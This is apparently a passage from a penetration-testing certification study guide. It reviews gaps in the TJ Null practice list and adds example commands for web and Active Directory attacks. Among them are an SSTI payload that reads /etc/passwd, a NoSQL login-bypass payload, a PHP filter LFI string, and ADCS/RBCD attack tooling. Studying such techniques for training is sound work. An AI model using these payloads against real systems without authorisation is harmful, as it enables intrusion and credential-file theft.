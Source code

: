 ```bash

# 5. Begin easy web enumeration
for ip in <web-targets>; do
  gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50 &
done
```

## TJ Null Boxes Analysis

### Updated TJ Null List Gaps (Based on Recent Exams)
Based on 2024-2025 exam feedback, TJ Null's list doesn't fully prepare for:

#### Missing Scenarios in TJ Null List:
1. **Custom Web Applications**: More business logic flaws, less CVE-based
2. **API-Heavy Applications**: GraphQL, REST API abuse, JWT manipulation
3. **Modern Windows Techniques**: Windows 10/11 specific privesc, AMSI bypass
4. **Container Scenarios**: Docker escape, Kubernetes misconfigurations  
5. **Cloud Integration**: Azure AD hybrid scenarios (limited scope)
6. **Advanced AD Scenarios**: ADCS, resource-based constrained delegation

#### TJ Null Scenarios That Are Still Relevant:
1. **Basic Web Exploits**: SQLi, LFI, file upload (but more advanced variants)
2. **Service Exploits**: Still relevant but need manual exploitation skills
3. **Basic AD Attacks**: Kerberoasting, ASREPRoast, lateral movement
4. **Classic PrivEsc**: SUID, sudo, service misconfigs (but more obscure)

### Beyond TJ Null - Additional Practice Needed

#### For Web Applications:
```bash
# Practice more advanced SSTI
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}

# API endpoint discovery and abuse
ffuf -w api-endpoints.txt -u http://target/FUZZ

# NoSQL injection
{"username":{"$ne":""},"password":{"$ne":""}}

# Advanced LFI to RCE chains  
php://filter/convert.base64-encode/resource=index.php
```

#### For Active Directory:
```bash
# ADCS attacks (if present)
certipy find -u user@domain -p password -dc-ip <dc-ip>

# Resource-based constrained delegation
python3 rbcd.py -u user -p password -t target domain.com

# Advanced BloodHound queries
MATCH p=shortestPath((u:User {owned:true})-[*1..]->(c:Computer {haslaps:false})) RETURN p
```
